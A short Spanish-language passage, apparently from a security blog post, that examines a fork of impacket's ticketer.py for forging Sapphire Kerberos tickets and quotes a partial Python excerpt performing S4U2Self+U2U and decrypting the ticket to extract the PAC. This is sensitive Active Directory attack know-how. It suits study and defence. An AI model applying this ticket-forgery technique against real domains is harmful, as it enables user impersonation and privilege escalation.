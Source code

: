 [![MEME](../../assets/img/diamond-sapphire-tickets/meme.jpeg)](../../assets/img/diamond-sapphire-tickets/meme.jpeg){:target="\_blank"}

Echando un vistazo al [codigo](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518) de [Charlie Shutdown](https://twitter.com/_nwodtuhs) con su extension de *Ticketer*.

Podemos ver como extrae el PAC.

```python
[...]
            # 1. S4U2Self + U2U
            logging.info('\tRequesting S4U2self+U2U to obtain %s\'s PAC' % self.__options.impersonate)
            tgs, cipher, oldSessionKey, sessionKey = self.getKerberosS4U2SelfU2U()

            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
[...]            
```
